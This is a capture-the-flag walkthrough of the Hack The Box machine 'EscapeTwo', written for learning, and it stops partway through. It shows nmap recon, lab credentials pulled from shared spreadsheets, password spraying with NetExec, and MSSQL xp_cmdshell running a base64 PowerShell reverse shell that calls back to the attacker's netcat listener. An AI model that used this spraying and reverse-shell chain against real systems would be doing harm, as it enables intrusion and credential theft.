

## Machine Information

As is common in real-life Windows pentests, we start this box with credentials for the following account: `rose / KxEPkKe6R8su`

## Reconnaissance

The first thing we need to do is perform network enumeration using nmap to identify open ports and running services on the target machine.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ sudo nmap -sVC -p- -Pn 10.129.232.128 --min-rate=1000 -T4 -oN nmap_results
[sudo] password for chjwoo: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-17 19:07 WIB
Nmap scan report for 10.129.232.128
Host is up (0.038s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-17 12:11:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-17T12:12:42+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-17T12:12:42+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.232.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.232.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-12-17T12:12:42+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-12-17T12:07:07
|_Not valid after:  2055-12-17T12:07:07
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-17T12:12:42+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-12-17T12:12:42+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  unknown
49744/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-12-17T12:12:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 293.94 seconds

```

### Analysis scan result

- **Active Directory Domain Controller** (LDAP, Kerberos, DNS)
- **SMB** services on port 445
- **MSSQL Server 2019** on port 1433
- **WinRM** on port 5985
- Domain: `sequel.htb`
- Hostname: `DC01.sequel.htb`

### Adding /etc/hosts

To ensure proper name resolution during enumeration, we add the domain and hostname to our local hosts file:

```python
10.129.232.128 DC01.sequel.htb sequel.htb DC01
```

### Enumeration

We are provided with initial credentials, so the next logical step is to verify their validity and begin service enumeration. I first tested the credentials against SMB using **NetExec (nxc)**.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc smb dc01.sequel.htb -u rose -p KxEPkKe6R8su  
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
```

The credentials turn out to be valid, which allows us to enumerate available SMB shares.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc smb dc01.sequel.htb -u rose -p KxEPkKe6R8su --shares
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.232.128  445    DC01             [*] Enumerated shares
SMB         10.129.232.128  445    DC01             Share           Permissions     Remark
SMB         10.129.232.128  445    DC01             -----           -----------     ------
SMB         10.129.232.128  445    DC01             Accounting Department READ            
SMB         10.129.232.128  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.232.128  445    DC01             C$                              Default share
SMB         10.129.232.128  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.232.128  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.232.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.232.128  445    DC01             Users           READ  
```

Using the valid credentials, we discover several readable shares. Two of them stand out immediately:

- **Accounting Department**
- **Users**

Since custom department shares often contain sensitive data, I started by exploring the **Accounting Department** share.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ smbclient //dc01.sequel.htb/Accounting\ Department -U rose --password KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 17:52:21 2024
  ..                                  D        0  Sun Jun  9 17:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 17:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 17:52:07 2024

                6367231 blocks of size 4096. 926742 blocks available
smb: \> mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (13.7 KiloBytes/sec) (average 13.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (27.8 KiloBytes/sec) (average 17.2 KiloBytes/sec)
smb: \> exit
                                                                                                                                                                                             
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ ls
accounting_2024.xlsx  accounts.xlsx  nmap_results
```

Inside the share, we find two Excel files:

- `accounting_2024.xlsx`
- `accounts.xlsx`

Both files are downloaded for further analysis.




However, attempting to open them normally reveals that they are corrupted. 

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ file accounts.xlsx 
accounts.xlsx: Zip archive data, made by v2.0, extract using at least v2.0, last modified Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
                                                                                                                                                                                             
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ file accounting_2024.xlsx 
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate

```

A closer look using the `file` command shows that both files are actually **ZIP archives**, which is expected since modern `.xlsx` files are ZIP-based.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ unzip accounts.xlsx -d accounts
Archive:  accounts.xlsx
file #1:  bad zipfile offset (local header sig):  0
  inflating: accounts/xl/workbook.xml  
  inflating: accounts/xl/theme/theme1.xml  
  inflating: accounts/xl/styles.xml  
  inflating: accounts/xl/worksheets/_rels/sheet1.xml.rels  
  inflating: accounts/xl/worksheets/sheet1.xml  
  inflating: accounts/xl/sharedStrings.xml  
  inflating: accounts/_rels/.rels    
  inflating: accounts/docProps/core.xml  
  inflating: accounts/docProps/app.xml  
  inflating: accounts/docProps/custom.xml  
  inflating: accounts/[Content_Types].xml 
```

Despite the corruption warning, unzipping the files partially succeeds and exposes several XML files. These XML files store the spreadsheet’s raw data.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/hackthebox/machines/escapetwo/accounts]
└─$ cd xl      
                                                                                                                                                                                             
┌──(chjwoo㉿hackbox)-[/mnt/…/machines/escapetwo/accounts/xl]
└─$ ls
sharedStrings.xml  styles.xml  theme  workbook.xml  worksheets
                                                                                                                                                                                             
┌──(chjwoo㉿hackbox)-[/mnt/…/machines/escapetwo/accounts/xl]
└─$ cat sharedStrings.xml    
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst> 
```

By inspecting `sharedStrings.xml`, we uncover a critical finding: **usernames, email addresses, and plaintext passwords**.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/machines/escapetwo/accounts/xl]
└─$ grep -oP '(?<=<t xml:space="preserve">).*?(?=</t>)' sharedStrings.xml | awk '/@/ {email=$0; getline user; getline pass; print user ":" email ":" pass}' > ../../creds.txt
                                                                                                                                        
┌──(chjwoo㉿hackbox)-[/mnt/…/machines/escapetwo/accounts/xl]
└─$ cd ../../     
                                                                                                                                        
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ cat creds.txt 
angela:angela@sequel.htb:0fwz7Q4mSpurIt99
oscar:oscar@sequel.htb:86LxLBMgEWaKUnBG
kevin:kevin@sequel.htb:Md9Wlq1E5bZnVDVo
sa:sa@sequel.htb:MSSQLP@ssw0rd!

```

To cleanly extract the credentials, I used a combination of `grep` and `awk` to parse the XML content and save the results into a structured file. Let's create separate files for usernames and passwords:

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ cat users          
angela
oscar
kevin
sa                                                                                                                                        
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ cat passwords 
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```

To determine where these credentials can be reused, I performed password spraying against SMB first.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc smb dc01.sequel.htb -u users -p passwords --continue-on-success
SMB         10.129.232.128  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.232.128  445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\kevin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.232.128  445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
```

Only one account succeeds: `oscar : 86LxLBMgEWaKUnBG` However, this account does not provide access to any new SMB shares. At this point, SMB appears to be a dead end.

Since MSSQL is exposed and we discovered a likely database password, the next step is to test these credentials against the SQL service.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc mssql dc01.sequel.htb -u users -p passwords --continue-on-success --local-auth
MSSQL       10.129.232.128  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.232.128  1433   DC01             [-] DC01\angela:0fwz7Q4mSpurIt99 (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\oscar:0fwz7Q4mSpurIt99 (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\kevin:0fwz7Q4mSpurIt99 (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\sa:0fwz7Q4mSpurIt99 (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\angela:86LxLBMgEWaKUnBG (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\oscar:86LxLBMgEWaKUnBG (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\kevin:86LxLBMgEWaKUnBG (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\sa:86LxLBMgEWaKUnBG (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\angela:Md9Wlq1E5bZnVDVo (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\oscar:Md9Wlq1E5bZnVDVo (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\kevin:Md9Wlq1E5bZnVDVo (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\sa:Md9Wlq1E5bZnVDVo (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\angela:MSSQLP@ssw0rd! (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\oscar:MSSQLP@ssw0rd! (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [-] DC01\kevin:MSSQLP@ssw0rd! (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.129.232.128  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

Great! The `sa` account has access to MSSQL with the password `MSSQLP@ssw0rd!`.

## Foothold

With `sa` access confirmed, we test whether `xp_cmdshell` is enabled. This feature allows arbitrary command execution on the underlying system.

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc mssql dc01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x whoami
MSSQL       10.129.232.128  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.232.128  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.129.232.128  1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.232.128  1433   DC01             sequel\sql_svc
```

The command executes successfully, which confirms that `xp_cmdshell` is enabled and working. From here, we can go straight for a reverse shell. I generated the payload using revshells.com with the PowerShell #3 (Base64) template.

```bash
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANQA3ACIALAA3ADcANwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Let’s try the payload above. Don’t forget to start your listener first.

```python
┌──(chjwoo㉿hackbox)-[/mnt/hgfs/cybersec/hackthebox/machines/escapetwo]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
```

Execute the reverse shell:

```python
┌──(chjwoo㉿hackbox)-[/mnt/…/cybersec/hackthebox/machines/escapetwo]
└─$ nxc mssql dc01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANQA3ACIALAA3ADcANwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
MSSQL       10.129.232.128  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.232.128  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)

```

We successfully got a reverse shell!

```python
┌──(chjwoo㉿hackbox)-[/mnt/hgfs/cybersec/hackthebox/machines/escapetwo]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.232.128] 64663

PS C:\Windows\system32> whoami
sequel\sql_svc
```

Let's check our privileges:

```python
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name      SID                                         
============== ============================================
sequel\sql_svc S-1-5-21-548670397-972687484-3496335370-1122

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                                     
========================================== ================ =============================================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                                    Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group             
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group             
NT SERVICE\MSSQL$SQLEXPRESS                Well-known group S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133 Enabled by default, Enabled group, Group owner                 
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group             
SEQUEL\SQLServer2005SQLBrowserUser$DC01    Alias            S-1-5-21-548670397-972687484-3496335370-1128                    Mandatory group, Enabled by default, Enabled group, Local Group
SEQUEL\SQLRUserGroupSQLEXPRESS             Alias            S-1-5-21-548670397-972687484-3496335370-1129                    Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                                   

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

Nothing particularly interesting in the privileges. Let's explore the file system:

```python
PS C:\> ls

    Directory: C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/5/2022  12:03 PM                PerfLogs                                                              
d-r---         1/4/2025   7:11 AM                Program Files                                                         
d-----         6/9/2024   8:37 AM                Program Files (x86)                                                   
d-----         6/8/2024   3:07 PM                SQL2019                                                               
d-r---         6/9/2024   6:42 AM                Users                                                                 
d-----         1/4/2025   8:10 AM                Windows 
```

There's an interesting `SQL2019` directory. Let's investigate:

```python
PS C:\> cd SQL2019
PS C:\SQL2019> ls

    Directory: C:\SQL2019

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         1/3/2025   7:29 AM                ExpressAdv_ENU                                                        

PS C:\SQL2019> cd ExpressAdv_ENU
PS C:\SQL2019\ExpressAdv_ENU> ls

    Directory: C:\SQL2019\ExpressAdv_ENU

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/8/2024   3:07 PM                1033_ENU_LP                                                           
d-----         6/8/2024   3:07 PM                redist                                                                
d-----         6/8/2024   3:07 PM                resources                                                             
d-----         6/8/2024   3:07 PM                x64                                                                   
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF                                                           
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML                                                         
-a----         6/8/2024   3:07 PM             16 PackageId.dat                                                         
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE                                                             
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG                                                      
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI                                                 
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL                                              

PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
